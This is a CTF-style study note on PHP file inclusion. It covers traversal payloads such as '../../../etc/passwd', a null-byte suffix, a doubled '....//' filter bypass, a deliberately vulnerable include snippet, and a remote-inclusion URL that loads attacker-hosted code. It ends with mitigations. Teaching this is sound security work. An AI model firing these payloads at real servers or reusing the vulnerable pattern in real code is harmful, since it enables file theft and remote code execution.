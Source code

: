 ```yaml
---
title: File Inclusion
author: Throupy
date: 2024-06-09 23:11:34 +0000
categories: [CTF]
tags: [CTF, Web]
---
```


Also known as directory traversal, file inclusion is a vulnerability which allows an attacker to read operating system resources, such as local files on the server. This vulnerability is exploited by manipulating and abusing the web application’s URL to locate and access files stored outside of the application’s root directory.

File inclusion occurs when un-sanitised user input is passed to a function such as PHP’s `file_get_contents`. However the function is not the only facilitator of the issue. Often poor input validation / filtering is the cause of the vulnerability.

[PHP: file_get_contents - Manual](https://www.php.net/manual/en/function.file-get-contents.php)

Using `../../../etc/passwd` is a common way of testing for file inclusion, for example:

1. There is a URL `https://site.com/get.php?file=<FILE_NAME>`
2. The site expects a file parameter like “file.txt” or something inconspicuous.
3. The attacker can leverage this and make the application go up to the root directory by using `../`, and then get whatever file they want from the server.

## Local File Inclusion - PHP
[Good Wordlist here](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
Once again picking on PHP, there are functions such as `include`, `include_once`, `require` and `require_once` which include files from the local filesystem. For example:
```php
<?PHP
	include($_GET["lang"]);
?>
```
This would get the “lang” parameter from the URL. Assume this parameter would be `english.php` for the English site, or `spanish.php` for the Spanish site. As previously discussed, an attacked could use a payload of `../../../etc/passwd` to include that file, and therefore retrieve the contents. This works because in the above code snippet, no directory is passed to the include function, and there is no validation of the user’s parameter input.

In the above examples, we have the source code to look at, but in a black box test, it’s important to know the signs of a possible file inclusion vulnerability. A sign in a PHP application would be:
```php
Warning: include(languages/LOL.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
The message discloses important information - we can tell that the application appends `.php` onto the parameter (`LOL.php`), and looks for the file inside the `languages` directory. We can also see that the application directory is `/var/www/html/THM-4/`

So to read `/etc/passwd`, we could try the parameter as `../../../../etc/passwd` (note: 4 x `../` because 4 levels to application directory). However this wouldn’t work, as the application appends the `.php` onto the end, and the file `/etc/passwd.php` doesn’t exist. To get around this, we can use null bytes (0x00 / %00), which basically tells the application to disregard any following text.

The payload would look like: `../../../../../etc/passwd%00`.

NOTE: THE NULL BYTE TRICK IS FIXED IN PHP V5.3.4 AND ABOVE

Be careful of encoding e.g. URL encoding when submitting forms, maybe better to just use the URL or send a request manually.

### Avoiding String Filtering
If the developer adds some string filtering to replace `../` string with an empty string, you can simply double the payload, so it would be:
`....//....//....//....//....//etc/passwd`. This is because the PHP filter only matches the replaces the first subset string `../` it finds and doesn’t do another passwd, as shown below.

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png)

## Remote File Inclusion - PHP
RFI is a technique used to include remote files into a vulnerable application. Similar to LFI, RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into the `include` function. +

A requirement for RFI is that the `allow_url_fopen` option need to be `on`

The risk of RFI is higher than that of LFI, as RFI can allow an attacker gain remote code execution on the server. The RFI process is roughly as follows:

1. Attacker hosts malicious file ([site.com/bad_command.txt](http://site.com/bad_command.txt))
2. Attacker sends a payload including the location of the bad file-
    1. e.g. `http://victim.com/get.php?file=http://site.com/bad_command.txt`
3. The victim server retrieves the malicious file which is being hosted by the attacker
4. `bad_command.txt` is injected into the `include` function and executed.
5. The victim server sends back the result of the execution.

## Mitigation
1. Keep system, services and web app frameworks up to date
2. Turn of PHP errors to avoid leaking the application path
3. Web application firewalls
4. Disable PHP features that cause file inclusion (`allow_url_fopen`, `allow_url_include`)
5. Carefully analyze web application and only allow needed protocols and PHP wrappers
6. Never trust user input - SANITIZE!
7. Implement whitelisting for file names and locations (and also black listing)
